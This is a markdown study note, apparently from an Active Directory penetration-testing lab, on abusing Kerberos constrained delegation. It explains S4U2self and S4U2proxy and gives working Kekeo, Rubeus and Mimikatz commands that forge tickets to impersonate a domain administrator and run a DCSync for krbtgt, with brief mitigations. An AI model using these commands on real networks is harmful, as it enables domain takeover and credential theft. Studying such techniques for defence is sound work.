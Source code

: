 # Constrained Delegation

## General

- When enabled on a service account, allows access only to specified services on specified computers as a user
- Typical scenario:
  - User authenticates to a web service without Kerberos
  - Web services makes requests to database server to fetch results based on the user's authorization
- To impersonate the user, Service for User (S4U) extension is used which provides two extensions

### Service for User to Self (S4U2self) Extension

- Allows service to obtain a forwardable TGS to itself on behalf of a user
- Only needs the user principal name but NO PASSWORD
- Service account must have the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` - T2A4D UserAccountControl attribute set

### Service for User to Proxy (S4U2proxy) Extension

- Allows service to obtain a TGS to a second service on behalf of a user
- Uses the previously obtained TGS from S4U2self
- Only allows access to services listed in the `msDS-AllowedToDelegateTo` attribute
- Attribute contains list of SPNs to which the user tokens can be forwarded

## Example Scenario: Constrained Delegation with Protocol Transition

1. User (Joe) authenticates to web service running under `websvc` service account using non-Kerberos method
2. Web service requests ticket from KDC for Joe without supplying a password, as the websvc account
3. KDC checks the websvc userAccountControl value for TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute
4. If set, KDC checks that Joe's account is not blocked for delegation
5. If OK, KDC returns forwardable ticket for Joe's account (S4U2self)
6. Service passes ticket back to the KDC and requests a TGS for the CIFS/dcorp-mssql.dollarcorp.moneycorp.local service
7. KDC checks the msDS-AllowedToDelegateTo field on the websvc account
8. If SPN is listed there, KDC return TGS for dcorp-mssql (S4U2proxy)
9. Web service can now authenticate to the CIFS on dcorp-mssql as Joe using the obtained TGS

## Exploitation

### For Users with Constrained Delegation

- Requires access to the user/service account
- If we can access it, we can access all the listed services in msDS-AllowedToDelegateTo attribute
- Can access the services as ANY user

```powershell
# Enumerate users with constrained delegation enabled
# PowerView 3.0
Get-DomainUser -TrustedToAuth

# AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo} -ne "$null"} -Properties msDS-AllowedToDelegateTo

# Kekeo
# Request TGT for websvc user
tgt::ask /domain:dollarcorp.moneycorp.local /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f

# Request TGS using s4u in Kekeo and supplying the requested TGT
# Impersonate the Administrator Domain Admin
# We gain access to the CIFS service
tgs::s4u /tgt:tgt.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local

# Inject the ticket using mimikatz
Invoke-Mimikatz -Command '"kerberos::ptt tgs.kirbi"'

# We can do both steps at the same time using Rubeus
# Request TGT and TGS in a single command
.\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /ptt

# We can now access the CIFS service on dcorp-mssql as the dcorp\Administrator DA user
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

### For Computers with Constrained Delegation

- Delegation occurs not only for specific service
- Occurs for ANY service running under the same service account
- No validation for SPN specified
- Requires hash of the machine account of the computer running with constrained delegation

```powershell
# Enumerate computers with constrained delegation enabled
# PowerView 3.0
Get-DomainComputer -TrustedToAuth

# AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo} -ne "$null"} -Properties msDS-AllowedToDelegateTo

# Kekeo
# Request TGT for machine account
tgt::ask /domain:dollarcorp.moneycorp.local /user:dcorp-adminsrv$ /rc4:5e77978a734e3a7f3895fb0fdbda3b96

# Using s4u, request TGS to access the LDAP service as the DA Adminstrator
tgs::s4u /tgt:tgt.kirbi /user:Administrator@dollarcorp.moneycorp.LOCAL /service:time/dcorp-dc.dollarcorp.moneycorp.local|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL

# Inject ticket into memory with Mimikatz
Invoke-Mimikatz -Command '"kerberos::ptt tgs.kirbi"'

# Request TGS and TGT at the same time with Rubeus
.\Rubeus.exe s4u /user:dcorp-adminsrv$ /rc4:5e77978a734e3a7f3895fb0fdbda3b96 /impersonateuser:Administrator /msdsspn:"time/dcorp-dc.dollarcorp.moneycorp.local" /altservice:ldap /ptt

# Execute DCSync attack with new permissions
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Mitigation

- Disable Kerberos delegation where possible
- Limit DA/Admin logins to specific services
- Set "Account is sensitive and cannot be delegated" for privileged accounts

## Further Reading

- [iRedTeam: Kerberos Constrained Delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)
- [HackTricks: Constrained Delegation](https://book.hacktricks.xyz/windows/active-directory-methodology/constrained-delegation)
- [PayloadsAllTheThings: Kerberos Constrained Delegation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#kerberos-constrained-delegation)
- [ShenanigansLabs: Wagging the Dog](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
